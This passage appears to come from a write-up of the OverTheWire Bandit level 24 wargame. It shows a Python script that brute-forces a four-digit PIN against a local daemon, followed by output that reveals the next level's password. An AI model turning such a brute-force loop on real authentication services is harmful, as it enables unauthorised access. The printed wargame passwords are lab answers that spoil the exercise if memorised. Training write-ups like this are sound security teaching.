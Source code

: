 Meh, this means we'll have to bruteforce the pincode and try until the daemon says it's correct. I wrote a quick Python script for that:

``` python
#!/usr/bin/python

import itertools
import socket



PIN_CHARS = '0123456789' # digits that can be in a pin
PIN_LEN = 4 # pin length

wrong = 'Wrong!' # part of the msg received for wrong data
fail = 'Fail!' # msg received if data doesn't respect constraints
normal = 'I am the pincode checker' # normal msg
host = '127.0.0.1'
port = 30002

def computePins(iterables, r):
    """
    Build a list of all possible pin combinations that meet the constraints
    """
    pins = []
    for pin in itertools.product(iterables, repeat = r):
        pins.append(''.join(pin))
    return pins

pinlist = computePins(PIN_CHARS, PIN_LEN)



s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, int(port)))


for pin in pinlist:
    msg = 'UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ %s\n' % pin
    reply = s.recv(1024)
    s.send(msg)
    if wrong not in reply and fail not in reply and normal not in reply:
        print msg, reply
        break
```

And running it:

``` plain
bandit24@melinda:/tmp/b24mine$ ./bandit24.py 
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 5670
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```
